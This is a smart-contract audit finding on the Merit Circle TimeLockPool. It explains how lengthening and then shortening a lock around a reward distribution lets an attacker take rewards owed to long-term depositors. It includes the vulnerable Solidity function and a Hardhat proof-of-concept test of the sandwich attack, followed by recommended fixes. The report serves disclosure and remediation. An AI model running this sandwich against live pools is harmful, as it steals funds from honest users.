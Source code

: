 Jeiwan

high

# Rewards can be stolen via lock duration extension and reduction

## Summary
In the [TimeLockPool contract](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L11), users deposit and lock funds for a certain duration and get pro-rata amounts of shares in exchange. The longer the duration the more shares they get. The amount of shares a user holds determines the amount of [rewards tokens they can claim](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/base/BasePool.sol#L100).

The [extendLock](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L148) function allows depositors to extend or reduce the lock duration of their funds. This function allows malicious actors to extend a lock duration to the maximal value before [reward tokens are distributed](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/base/BasePool.sol#L95-L98) and reduce it to the minimal value right after claiming their share of rewards. This allows to steal rewards from honest users who locked their funds for longer durations.
## Vulnerability Detail
The root cause of the vulnerability is that the [extendLock](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L148) function allows to reduce a lock duration at any time:
```solidity
function extendLock(uint256 _depositId, uint256 _increaseDuration) external {
    // Check if actually increasing
    if (_increaseDuration == 0) {
        revert ZeroDurationError();
    }

    Deposit memory userDeposit = depositsOf[_msgSender()][_depositId];

    // Only can extend if it has not expired
    if (block.timestamp >= userDeposit.end) {
        revert DepositExpiredError();
    }
    
    // Enforce min increase to prevent flash loan or MEV transaction ordering
    uint256 increaseDuration = _increaseDuration.max(MIN_LOCK_DURATION);
    
    // New duration is the time expiration plus the increase
    uint256 duration = maxLockDuration.min(uint256(userDeposit.end - block.timestamp) + increaseDuration);

    uint256 mintAmount = userDeposit.amount * getMultiplier(duration) / 1e18;

    // Multiplier curve changes with time, need to check if the mint amount is bigger, equal or smaller than the already minted
    
    // If the new amount if bigger mint the difference
    // @audit can be called with maxDuration right before distributeRewards
    if (mintAmount > userDeposit.shareAmount) {
        depositsOf[_msgSender()][_depositId].shareAmount =  mintAmount;
        _mint(_msgSender(), mintAmount - userDeposit.shareAmount);
    // If the new amount is less then burn that difference
    // @audit can be called with minDuration right after distributeRewards and claimRewards (stealing rewards)
    } else if (mintAmount < userDeposit.shareAmount) {
        depositsOf[_msgSender()][_depositId].shareAmount =  mintAmount;
        _burn(_msgSender(), userDeposit.shareAmount - mintAmount);
    }

    depositsOf[_msgSender()][_depositId].start = uint64(block.timestamp);
    depositsOf[_msgSender()][_depositId].end = uint64(block.timestamp) + uint64(duration);
    emit LockExtended(_depositId, _increaseDuration, _msgSender());
}
```
Since this functionality is not timelocked or limited in any way, depositors are only forced to lock funds for up to the minimal lock duration.
## Impact
Reward tokens can be stolen from honest users by malicious actors by manipulating a lock duration around the time when rewards are distributed. The cost of the attack is low since attacker's fund can be locked in the contract only for up to the minimal lock duration, which is [only 10 minutes](https://github.com/sherlock-audit/2022-10-merit-circle/blob/main/merit-liquidity-mining/contracts/TimeLockPool.sol#L22).
## Code Snippet
The following PoC demonstrates a sandwich attack that steals rewards:
```javascript
// test/TimeLockPool.ts
it("allows to steal rewards [audit]", async () => {
    await depositToken.mint(account3.address, INITIAL_MINT);
    await depositToken.mint(account4.address, INITIAL_MINT);
    await rewardToken.mint(account1.address, INITIAL_MINT);
    await rewardToken.approve(timeLockPool.address, INITIAL_MINT);

    const maxDuration = await timeLockPool.maxLockDuration();
    const minDuration = await timeLockPool.MIN_LOCK_DURATION();

    const alice = account4;
    const bob = account3;

    // Bob is an honest actor, he locks his funds for the maximal duration.
    await depositToken.connect(bob).approve(timeLockPool.address, INITIAL_MINT);
    await timeLockPool.connect(bob).deposit(parseEther("1"), maxDuration, bob.address);

    // Alice is a malicious actor, she locks her funds only for the minimal duration.
    await depositToken.connect(alice).approve(timeLockPool.address, INITIAL_MINT);
    await timeLockPool.connect(alice).deposit(parseEther("1"), minDuration, alice.address);

    // Alice runs a bot that monitors the Ethereum mempool for a `distributeReward` transaction.
    // As soon as the transaction appears, Alice's bot wraps it between two transactions:
    //  1. (the top bread slice) Alice extends the duration of her lock to the maximal value;
    //  2. (the filling) `distributeRewards` transaction;
    //  3. (the bottom bread slice) Alice claims her portion of the reward and reduces the duration of her lock
    //      to the minimal value.
    await timeLockPool.connect(alice).extendLock(0, maxDuration);
    await timeLockPool.distributeRewards(parseEther("1"));
    await timeLockPool.connect(alice).claimRewards(alice.address);
    await timeLockPool.connect(alice).extendLock(0, minDuration);
    // Alice can then withdraw tokens after minDuration, which is only 10 minutes

    await timeLockPool.connect(bob).claimRewards(bob.address);

    const bobRewardTokenBalance = await rewardToken.balanceOf(bob.address);
    const aliceRewardTokenBalance = await rewardToken.balanceOf(alice.address);

    // Alice gets as much as Bob even though her tokens were locked for a shorter period of time.
    expect(bobRewardTokenBalance).to.eq("16284687524502424");
    expect(aliceRewardTokenBalance).to.eq("16284687524502424");
});
```
## Tool used
Manual Review
## Recommendation
Multiple options can be considered:
1. disallowing reduction of lock duration;
1. timelocking lock duration reduction;
1. allowing to reduce lock duration only by a small value (e.g. proportional to how long funds have already been locked).